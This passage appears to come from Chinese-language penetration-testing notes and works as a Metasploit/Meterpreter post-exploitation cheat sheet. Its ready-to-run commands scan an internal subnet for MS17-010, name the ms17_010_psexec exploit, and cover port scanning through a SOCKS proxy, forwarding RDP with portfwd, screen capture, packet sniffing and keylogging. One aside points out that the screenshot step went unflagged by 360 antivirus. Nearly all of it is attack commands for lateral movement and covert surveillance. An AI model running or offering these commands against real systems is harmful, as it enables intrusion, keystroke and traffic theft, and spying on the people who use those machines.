 MS17-010

>   meterpreter > background
>
>   msf exploit(multi/handler) > use auxiliary/scanner/smb/ smb_ms17_010
>
>   msf auxiliary(scanner/smb/smb_ms17_010) > set rhosts 172.17.0.0/24
>
>   msf auxiliary(scanner/smb/smb_ms17_010) > set threads 50
>
>   msf auxiliary(scanner/smb/smb_ms17_010) > run

先利用 ``exploit/windows/smb/ms17_010_psexec``，win10 旧版依旧可以，新版设置  smbuser，smbpass 即可

### Msf 扫描

经过上面设置路由即可使用以下 scan：

>   use auxiliary/scanner/portscan/syn
>
>   use auxiliary/scanner/portscan/tcp

proxychains 设置 socks4 为以下设置，即可在本地代理扫描

>   use auxiliary/server/socks4a

### Msf 端口转发 portfwd

将 192.168.1.2.100 内网转发到本地 4443 port，流量大不好用

>   portfwd add -L 0.0.0.0 4443 -p 3389 -r 192.168.2.100

### Msf 截屏(没被 360 拦没提示，或许有意外收获)

>   meterpreter > use espia
>
>   meterpreter > screengrab

### Msf 嗅探

>   meterpreter > use sniffer
>
>   meterpreter > sniffer_interfaces
>
>   meterpreter > sniffer_start 5
>
>   meterpreter > sniffer_dump 5 /tmp/1.pcap
>
>   meterpreter > sniffer_stop 5

### 键盘记录

Msf 键盘记录在 win 不会创建新进程

>   meterpreter > keyscan_start
>
>   meterpreter > keyscan_dump
>
>   meterpreter > keyscan_stop
